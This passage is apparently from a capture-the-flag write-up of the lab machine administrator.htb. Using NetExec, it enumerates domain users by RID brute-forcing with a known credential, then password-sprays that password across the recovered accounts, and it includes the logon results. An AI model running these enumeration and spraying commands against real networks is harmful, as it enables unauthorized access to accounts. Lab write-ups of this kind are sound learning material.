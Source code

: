 ```bash
SMB         10.10.11.42     445    DC               SYSVOL          READ            Logon server share

```
> Default shares. Nothing interesting for us.

> Let's list users in `Active Directory`:

```bash

nxc smb administrator.htb -u 'administrator.htb\Olivia' -p 'ichliebedich' --rid-brute | grep -i sidtypeuser | cut -d '\' -f2 | cut -d ' ' -f1

```
```bash

Administrator
Guest
krbtgt
DC$
olivia
michael
benjamin
emily
ethan
alexander
emma

```
> We save the users to a text file and perform the `password spraying` technique of one known password `ichliebedich` on the list of users:

```bash

nxc smb administrator.htb -u 'administrator.htb\Olivia' -p 'ichliebedich' --rid-brute | grep -i sidtypeuser | cut -d '\' -f2 | cut -d ' ' -f1 > users.txt

```
```bash

nxc smb administrator.htb -u users.txt -p 'ichliebedich' --continue-on-success

SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.42     445    DC               [-] administrator.htb\Administrator:ichliebedich STATUS_LOGON_FAILURE
SMB         10.10.11.42     445    DC               [-] administrator.htb\Guest:ichliebedich STATUS_LOGON_FAILURE
SMB         10.10.11.42     445    DC               [-] administrator.htb\krbtgt:ichliebedich STATUS_LOGON_FAILURE
SMB         10.10.11.42     445    DC               [-] administrator.htb\DC$:ichliebedich STATUS_LOGON_FAILURE
SMB         10.10.11.42     445    DC               [+] administrator.htb\olivia:ichliebedich
SMB         10.10.11.42     445    DC               [-] administrator.htb\michael:ichliebedich STATUS_LOGON_FAILURE
SMB         10.10.11.42     445    DC               [-] administrator.htb\benjamin:ichliebedich STATUS_LOGON_FAILURE
SMB         10.10.11.42     445    DC               [-] administrator.htb\emily:ichliebedich STATUS_LOGON_FAILURE
SMB         10.10.11.42     445    DC               [-] administrator.htb\ethan:ichliebedich STATUS_LOGON_FAILURE
SMB         10.10.11.42     445    DC               [-] administrator.htb\alexander:ichliebedich STATUS_LOGON_FAILURE
SMB         10.10.11.42     445    DC               [-] administrator.htb\emma:ichliebedich STATUS_LOGON_FAILURE

```